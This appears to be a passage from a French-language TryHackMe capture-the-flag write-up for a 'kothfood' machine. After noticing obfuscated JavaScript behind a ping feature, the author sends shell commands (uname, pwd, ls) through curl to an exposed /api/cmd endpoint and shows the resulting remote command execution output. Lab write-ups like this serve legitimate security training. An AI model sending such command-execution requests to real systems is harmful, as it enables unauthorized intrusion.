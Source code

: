 ![page3](./task1-03.png)

On voit que la gestion du ping est gérée par un script javascript mais qu'il obscurcie.  

![page4](./task1-04.png)

On remarque que une url POST est faite pour passer une commande.   

```bash
tim@kali:~/Bureau/tryhackme$ curl kothfood.thm:15065/api/cmd -X POST -d "uname -a;pwd;ls"
Linux foodctf 4.15.0-91-generic #92-Ubuntu SMP Fri Feb 28 11:09:48 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
/home/bread
flag
main
main.go
resources
```
